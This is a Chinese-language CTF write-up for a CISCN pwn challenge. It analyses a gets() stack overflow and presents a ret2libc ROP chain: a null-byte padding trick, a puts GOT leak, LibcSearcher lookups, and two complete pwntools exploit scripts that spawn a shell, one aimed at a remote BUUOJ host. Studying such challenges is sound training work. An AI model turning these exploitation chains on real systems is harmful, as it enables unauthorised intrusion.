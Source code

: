 ## 0x001 程序分析

进入程序，查看main函数

![](1.png)

一通打印之后，调用了begin函数，查看下begin函数内容

![](2.png)

这里只是打印了一些提示信息，接着往下分析main函数之后的内容

按照提示信息循环接收输入，输入1，则进入加密函数 **encrypt**, 输入2，尽打印一个字符串，输入3，退出程序。

关键在于 **encrypt** 函数。

![](3.png)

**encrypt** 函数中，接收输入一个要加密的字符串，通过 **strlen** 获取输入字符串的长度，然后对字符串进行异或加密。

## 0x002 漏洞分析

通过分析，可以很容易看出漏洞位于 **encrypt** 函数，这里使用了gets接收输入，而且未对输入的长度做限制，输入的内容存放在栈上，距离 **rbp** 为 0x50 个字节，因此当输入的内容大于 0x50 个字节时就会覆盖 **rbp**。

## 0x003 漏洞利用

使用checksec查看程序开启了那些保护：

![](4.png)

程序开启了NX保护，这里首先想到构造ROP绕过。

由于程序里没有 **system** 函数和 **/bin/sh** 字符串，并且也没有提供libc库，因此需要通过 **LibcSearcher** 或 **DynELF** 来泄漏libc地址。

第一步，首先构造ROP泄漏某个函数的真实地址，这里选择使用 **puts** 来泄漏 **gets** 函数的真实地址。（为什么不选择泄漏puts函数的真实地址呢？由于这里选择使用LibcSearcher来泄漏libc地址，因此使用puts函数的真实地址去获取libc函数的地址时，会提示获取不到，具体原因是此处搜寻到的libc是本机的libc-2.23，需要自行添加到database，具体方法可上github，搜寻libc_database项目）

64位系统下，**puts** 函数参数传递使用的是 **rdi**，需要使用 **ROPgadget** 来获取 **pop rdi ; ret** 指令的地址。

泄漏 **gets** 函数的真实地址的ROP如下：
```
rop1 = b"\x00" * 88 + p64(pop_rdi_ret) + p64(gets_got) + p64(puts_plt) + p64(main_addr)
```

这里填充物选择 **"\x00"** 的原因是为了绕过 **encrypt** 函数中的异或加密。由于 **encrypt** 函数对输入字符串进行异或加密的长度是用 **strlen** 获取的，而 **strlen** 获取字符串长度的结束标志就是 **"\x00"**，因此将填充物设置为 **"\x00"** 就可以使 **strlen** 获取到的长度为0，从而绕过后面的异或加密。（只要将第一个设置为 "\x00" 也是可以的，后面填充物无所谓。）

第二步，获取到 **gets** 函数的真实地址后，使用 **LibcSearcher** 来泄漏libc地址，**LibcSearcher**的使用方法为
```
libc = LibcSearcher("gets", gets_real_addr)

libcbase = gets_real_addr - libc.dump("gets")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")
```

通过真实地址以及偏移，可获取libc基地址，然后就可以通过 **system** 函数和 **/bin/sh** 字符串的偏移地址，获取其真实地址。

第三步，再次构造ROP，执行 **system("/bin/sh", 0)** 命令获取系统权限。

**system** 函数参数传递使用的是 **rdi和rsi**，再次使用 **ROPgadget** 来获取 **pop rdi ; pop rsi; ret** 指令的地址。

由于程序中没有直接调用 **pop rdi ; pop rsi; ret** 指令的地址，因此可以选择与其他指令结合一下，如下所示：
```
0x0000000000400c83 : pop rdi ; ret
0x0000000000400c81 : pop rsi ; pop r15 ; ret
```

可以先使用 **pop rdi ; ret** 指令将 **system** 函数的第一个参数 **"/bin/sh"** 赋值给 **rdi**，然后使用 **pop rsi ; pop r15 ; ret** 指令将第二个参数 **0** 赋值给 **rsi**，即可完成 **system** 函数的参数传递。（另一个pop r15指令，可以随意在栈中填充数据赋值给r15）

执行 **system("/bin/sh", 0)** 命令构造的ROP如下:
```
rop2 = b"\x00" * 88 + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(pop_rsi_r15_ret) + p64(0) + p64(0) + p64(system_addr)
```

到此即可完成漏洞利用过程。

完整exp如下：
```
from pwn import *
from LibcSearcher import *

p = process("./ciscn")
# p = remote("node4.buuoj.cn", 29673)
elf = ELF("./ciscn")

gets_got = elf.got["gets"]
puts_plt = elf.plt["puts"]
main_addr = elf.symbols["main"]
pop_rdi_ret = 0x400c83

rop1 = b"\x00" * 88 + p64(pop_rdi_ret) + p64(gets_got) + p64(puts_plt) + p64(main_addr)

p.sendlineafter("Input your choice!\n", "1")
p.sendlineafter("Input your Plaintext to be encrypted\n", rop1)
p.recvuntil("Ciphertext\n\n")

gets_real_addr = u64(p.recv(6).ljust(8, b'\0'))

libc = LibcSearcher("gets", gets_real_addr)

libcbase = gets_real_addr - libc.dump("gets")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")

pop_rsi_r15_ret = 0x400c81
ret = 0x4006b9

rop2 = b"\x00" * 88 + p64(ret) + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(pop_rsi_r15_ret) + p64(0) + p64(0) + p64(system_addr)

p.sendlineafter("Input your choice!\n", "1")
p.sendlineafter("Input your Plaintext to be encrypted\n", rop2)
p.recvuntil("Ciphertext\n\n")

p.interactive()
```

```
from pwn import *
from LibcSearcher import *

# p = process("./ciscn")
p = remote("node4.buuoj.cn", 28954)
elf = ELF("./ciscn")

puts_got = elf.got["puts"]
puts_plt = elf.plt["puts"]
main_addr = elf.symbols["main"]
pop_rdi_ret = 0x400c83

rop1 = b"\x00" * 88 + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(main_addr)

p.sendlineafter("Input your choice!\n", "1")
p.sendlineafter("Input your Plaintext to be encrypted\n", rop1)
p.recvuntil("Ciphertext\n\n")

gets_real_addr = u64(p.recv(6).ljust(8, b'\0'))

libc = LibcSearcher("puts", gets_real_addr)

libcbase = gets_real_addr - libc.dump("puts")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")

pop_rsi_r15_ret = 0x400c81
ret = 0x4006b9

rop2 = b"\x00" * 88 + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(pop_rsi_r15_ret) + p64(0) + p64(0) + p64(system_addr)

p.sendlineafter("Input your choice!\n", "1")
p.sendlineafter("Input your Plaintext to be encrypted\n", rop2)
p.recvuntil("Ciphertext\n\n")

p.interactive()
```